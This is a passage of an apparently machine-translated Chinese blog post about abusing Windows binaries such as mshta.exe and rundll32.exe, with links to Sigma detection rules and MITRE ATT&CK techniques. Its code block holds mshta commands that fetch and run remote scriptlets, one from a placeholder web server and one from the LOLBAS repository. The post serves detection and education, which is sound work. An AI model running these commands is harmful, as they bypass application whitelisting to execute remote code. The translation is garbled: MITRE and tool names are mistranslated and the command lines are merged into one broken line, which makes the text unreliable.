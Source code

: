 ## ***西格玛规则***

***您可以使用以下 sigma 规则来检测该工具:***

*   ***[win_susp_bcdedit.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_bcdedit.yml)***

# ***姆什塔(mshta.exe)***

> ***Mshta.exe 是一个执行微软 HTML 应用程序(HTA)文件的工具— [维基百科](https://en.wikipedia.org/wiki/HTML_Application)***

***通常出现在感染的早期阶段，如 office 可执行文件或 WINRAR 等。但是可以被视为绕过白名单或应用控制机制。***

```
*mshta.exe [URL] /fmshta.exe ""about:<hta:application><script>[Malicious Content]</script>"mshta.exe vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSBinaries/Payload/Mshta_calc.sct").Exec();close();*
```

## ***相关的斜接技术***

***以下来自**米特 ATT & CK** 的技术与该工具相关***

*   ***[T1218.005 —签名的二进制代理执行:Mshta](https://attack.mitre.org/techniques/T1218/005/)***

## ***西格玛规则***

***您可以使用以下 sigma 规则来检测该工具:***

*   ***[win _ mshta _ JavaScript . yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_mshta_javascript.yml)***
*   ***[win _ mshta _ spawn _ shell . yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_mshta_spawn_shell.yml)***

# ***rundll 32(rundll32.exe)***

***顾名思义，“rundll32.exe”可执行文件用于“运行 dll”或动态链接库。我以前在博客上写过，所以去看看吧，以便更好地理解这个工具是如何工作的。***

***[](https://nasbench.medium.com/a-deep-dive-into-rundll32-exe-642344b41e90) [## 深入了解 RUNDLL32。可执行程序的扩展名

### 了解“rundll32.exe”命令行参数

nasbench.medium.com](https://nasbench.medium.com/a-deep-dive-into-rundll32-exe-642344b41e90) 

简而言之，这个工具可以用来执行恶意的动态链接库，劫持 COM 服务器，JavaScript，甚至远程执行共享的动态链接库。LOLBAS 项目有一些很好的例子。

 [## rundll32 | LOLBAS

### https://evi1cg . me/archives/app locker _ Bypass _ techniques . html # menu _ index _ 7
